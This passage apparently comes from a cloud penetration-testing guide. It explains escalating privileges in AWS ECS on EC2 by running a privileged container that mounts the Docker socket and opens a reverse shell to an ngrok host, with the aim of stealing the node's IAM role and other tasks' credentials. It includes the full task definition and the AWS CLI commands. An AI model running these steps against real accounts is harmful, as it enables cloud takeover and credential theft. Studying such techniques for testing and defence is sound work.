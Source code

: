 This scenario is like the previous ones but **without** the **`iam:PassRole`** permission.\
This is still interesting because if you can run an arbitrary container, even if it's without a role, you could **run a privileged container to escape** to the node and **steal the EC2 IAM role** and the **other ECS containers roles** running in the node.\
You could even **force other tasks to run inside the EC2 instance** you compromise to steal their credentials (as discussed in the [**Privesc to node section**](aws-ecs-post-exploitation/README.md#privesc-to-node)).

> [!WARNING]
> This attack is only possible if the **ECS cluster is using EC2** instances and not Fargate.

```bash
printf '[
    {
        "name":"exfil_creds",
        "image":"python:latest",
        "entryPoint":["sh", "-c"],
        "command":["/bin/bash -c \\\"bash -i >& /dev/tcp/7.tcp.eu.ngrok.io/12976 0>&1\\\""],
        "mountPoints": [
            {
                "readOnly": false,
                "containerPath": "/var/run/docker.sock",
                "sourceVolume": "docker-socket"
            }
        ]
    }
]' > /tmp/task.json

printf '[
    {
        "name": "docker-socket",
        "host": {
            "sourcePath": "/var/run/docker.sock"
        }
    }
]' > /tmp/volumes.json


aws ecs register-task-definition --family iam_exfiltration \
    --cpu 256 --memory 512 \
    --requires-compatibilities '["EC2"]' \
    --container-definitions file:///tmp/task.json \
    --volumes file:///tmp/volumes.json


aws ecs run-task --task-definition iam_exfiltration \
    --cluster arn:aws:ecs:us-east-1:947247140022:cluster/ecs-takeover-ecs_takeover_cgidc6fgpq6rpg-cluster \
    --launch-type EC2

# You will need to do 'apt update' and 'apt install docker.io' to install docker in the rev shell
```
